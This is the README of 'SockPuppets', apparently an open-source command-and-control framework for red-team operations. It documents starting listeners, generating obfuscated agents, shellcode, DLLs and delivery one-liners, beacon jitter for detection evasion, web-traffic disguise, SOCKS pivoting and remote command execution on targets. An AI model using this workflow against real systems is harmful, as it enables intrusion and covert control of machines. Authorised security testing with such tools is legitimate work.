

# SockPuppets

```
 _____ _____ _____ _____ _____ _____ _____ _____ _____ _____ _____
|   __|     |     |  |  |  _  |  |  |  _  |  _  |   __|_   _|   __|
|__   |  |  |   --|    -|   __|  |  |   __|   __|   __|  |  |__   |
|_____|_____|_____|__|__|__|  |_____|__|  |__|  |_____|  |  |_____|

                    by AJ Hammond @ajm4n
```

Multi-transport C2 framework supporting WebSocket, HTTP, and HTTPS. Built for stage0/stage0.5 operations.



---

**Shoutout and special thanks to:**
Skyler Knecht (@skylerknecht), Jeremy Schoeneman (@y4utj4), Matt Jackoski (@ds-koolaid), Mason Davis (@mas0nd), Kevin Clark (@clarkkev)

---

## Installation

```bash
git clone https://github.com/ajm4n/sockpuppets.git
cd sockpuppets
pip install -r requirements.txt
```

Optional: install UPX for executable compression (`brew install upx` / `apt install upx`).

## Quick Start

```bash
python main.py
```

Start a WebSocket listener and generate agents:

```
sockpuppets> start 0.0.0.0 8443
sockpuppets> generate 192.168.1.100 8443
sockpuppets> agents
sockpuppets> interact <agent_id>
```

## Transports

SockPuppets supports three transport types. Multiple listeners can run simultaneously on different ports.

| Transport | Default Port | Protocol | Use Case |
|-----------|-------------|----------|----------|
| WebSocket | 8443 | WS over TCP | Real-time streaming, SOCKS proxy |
| HTTP | 8080 | HTTP polling | Firewall evasion, blends with web traffic |
| HTTPS | 443 | HTTPS polling | Same as HTTP with TLS encryption |

## Listeners

### Starting Listeners

```
# WebSocket (default)
sockpuppets> start 0.0.0.0 8443

# HTTP
sockpuppets> start http 0.0.0.0 8080

# HTTPS with auto-generated self-signed cert
sockpuppets> start https 0.0.0.0 443

# HTTPS with your own cert
sockpuppets> start https 0.0.0.0 443 --cert=/path/to/cert.pem --certkey=/path/to/key.pem

# Custom encryption key (applies to any listener type)
sockpuppets> start 0.0.0.0 8443 --key=MySecretKey
```

### Managing Listeners

```
# View all active listeners
sockpuppets> listeners

# Stop a specific listener type
sockpuppets> stop ws
sockpuppets> stop http
sockpuppets> stop https

# Stop all listeners
sockpuppets> stop
```

## Agent Generation

### Basic Generation

Generates Python, PowerShell, JavaScript, and HTA agents.

```
# WebSocket agents (default)
sockpuppets> generate 192.168.1.100 8443

# HTTP agents
sockpuppets> generate 192.168.1.100 8080 --transport=http

# HTTPS agents
sockpuppets> generate 192.168.1.100 443 --transport=https

# Custom encryption key (must match the listener)
sockpuppets> generate 192.168.1.100 8443 --key=MySecretKey
```

### Beacon Mode

Beacon agents check in at intervals instead of maintaining a persistent connection. Harder to detect.

```
# Beacon with 60-second interval (default)
sockpuppets> generate 192.168.1.100 8080 --transport=http --beacon

# 5-minute beacon with 20% jitter
sockpuppets> generate 192.168.1.100 443 --transport=https --beacon --interval=300 --jitter=20

# 1-hour beacon
sockpuppets> generate 192.168.1.100 443 --transport=https --beacon --interval=3600
```

Jitter randomizes check-in times. A 300-second interval with 20% jitter checks in between 240-360 seconds.

### Compilation and Shellcode

```
# Compile Python agent to standalone executable
sockpuppets> generate 192.168.1.100 8443 --compile

# Compile for specific architecture
sockpuppets> generate 192.168.1.100 8443 --compile --arch=x86

# Compile for all architectures (x86, x64, arm64)
sockpuppets> generate 192.168.1.100 8443 --multi-arch

# Generate as DLL
sockpuppets> generate 192.168.1.100 8443 --dll

# Generate shellcode
sockpuppets> generate 192.168.1.100 8443 --shellcode --format=raw
sockpuppets> generate 192.168.1.100 8443 --shellcode --format=c
sockpuppets> generate 192.168.1.100 8443 --shellcode --format=python
sockpuppets> generate 192.168.1.100 8443 --shellcode --format=powershell

# Target specific OS
sockpuppets> generate 192.168.1.100 8443 --os=windows
sockpuppets> generate 192.168.1.100 8443 --multi-os

# Custom icon (Windows executables)
sockpuppets> generate 192.168.1.100 8443 --compile --icon=app.ico

# Disable UPX compression
sockpuppets> generate 192.168.1.100 8443 --compile --no-upx
```

### One-Liners

Generate one-liner payloads for quick delivery:

```
sockpuppets> generate 192.168.1.100 8443 --oneliners=http://192.168.1.100:8080
```

### Agent Templates

| Template | Transport | File |
|----------|-----------|------|
| Python (full) | WS / HTTP / HTTPS | `agent_template.py` / `agent_http_template.py` |
| Python (minimal beacon) | WS / HTTP / HTTPS | `agent_beacon_minimal.py` / `agent_http_beacon_minimal.py` |
| PowerShell | WS / HTTP / HTTPS | `agent_template.ps1` / `agent_http_template.ps1` |
| JavaScript (Node.js) | WS / HTTP / HTTPS | `agent_template.js` / `agent_http_template.js` |
| HTA | WS / HTTP / HTTPS | `agent_template.hta` / `agent_http_template.hta` |

HTTP/HTTPS Python agents use only stdlib (`urllib.request`) -- no external dependencies required on target.

## Agent Interaction

### Listing Agents

```
# All agents (shows transport type, mode, status)
sockpuppets> agents

# Beacon agents only
sockpuppets> beacons

# Streaming agents only
sockpuppets> streamers

# Remove a dead agent from the list
sockpuppets> remove <agent_id>
```

### Interacting

```
sockpuppets> interact <agent_id>

# Run commands
agent[abc123]> whoami
agent[abc123]> ipconfig /all
agent[abc123]> dir C:\Users

# View pending beacon results
agent[abc123]> results

# Return to main menu
agent[abc123]> back
```

### Mode Switching

```
# Change beacon interval
agent[abc123]> sleep 120

# Upgrade beacon to streaming (real-time responses)
agent[abc123]> upgrade

# Downgrade streaming to beacon (stealth)
agent[abc123]> downgrade 300
```

### Transport Upgrade

HTTP/HTTPS agents can be upgraded to WebSocket for features that require a persistent connection (like SOCKS proxy):

```
agent[abc123]> upgrade_ws
```

This requires a WebSocket listener to be running. The agent reconnects over WebSocket while keeping its agent ID.

### SOCKS5 Proxy

Available on WebSocket agents only:

```
agent[abc123]> socks 1080
```

Then use with standard tools:

```bash
curl --socks5 127.0.0.1:1080 http://internal-server
proxychains nmap -sT 10.0.0.0/24
```

### Killing Agents

```
agent[abc123]> kill
```

For HTTP/HTTPS beacon agents, the kill command is queued and delivered on the next check-in.

## Polymorphic Obfuscation

All generated agents use polymorphic obfuscation by default:
- Randomized function and variable names
- String encoding and obfuscation
- Unique encryption keys per agent (unless specified)

This applies to all transport types and template formats.

## HTTP Traffic Profile

HTTP/HTTPS agents disguise traffic as normal web activity:
- Routes mimic standard web endpoints (`/submit-form`, `/api/v1/update`, `/upload`)
- User-Agent matches current Chrome browser strings
- Content-Type set to `application/x-www-form-urlencoded`
- All payloads are XOR encrypted and base64 encoded

## Example: Full HTTP/HTTPS Setup

```
# Start an HTTPS listener with auto-generated cert
sockpuppets> start https 0.0.0.0 443

# Start an HTTP listener as fallback
sockpuppets> start http 0.0.0.0 8080

# Verify listeners
sockpuppets> listeners

# Generate HTTPS beacon agents with jitter
sockpuppets> generate 10.0.0.5 443 --transport=https --beacon --interval=300 --jitter=25

# Deploy agent on target, wait for check-in...
sockpuppets> agents

# Interact
sockpuppets> interact <agent_id>
agent[...]> whoami
agent[...]> systeminfo
```

## Generate Options Reference

| Flag | Description |
|------|-------------|
| `--transport=TYPE` | `websocket`, `http`, or `https` (default: websocket) |
| `--beacon` | Enable beacon mode |
| `--interval=N` | Beacon interval in seconds (default: 60) |
| `--jitter=N` | Beacon jitter percentage, 0-100 (default: 0) |
| `--compile` | Compile Python agent to executable |
| `--dll` | Compile Python agent to DLL |
| `--shellcode` | Generate shellcode |
| `--format=FMT` | Shellcode format: `raw`, `c`, `python`, `powershell` |
| `--arch=ARCH` | Target architecture: `x86`, `x64`, `arm64` |
| `--multi-arch` | Compile for all architectures |
| `--os=OS` | Target OS: `auto`, `windows`, `linux`, `macos` |
| `--multi-os` | Generate for all OS types |
| `--no-upx` | Disable UPX compression |
| `--icon=PATH` | Custom icon for Windows executable |
| `--key=KEY` | Custom encryption key |
| `--oneliners=URL` | Generate one-liner payloads |

## Interact Commands Reference

| Command | Description |
|---------|-------------|
| `back` / `exit` | Return to main menu |
| `kill` | Terminate the agent |
| `results` | View pending beacon results |
| `socks <port>` | Start SOCKS5 proxy (WebSocket only) |
| `sleep <seconds>` | Set beacon check-in interval |
| `upgrade` | Switch from beacon to streaming mode |
| `downgrade [seconds]` | Switch from streaming to beacon mode |
| `upgrade_ws` | Upgrade HTTP agent to WebSocket transport |
| `<any command>` | Execute on the target |
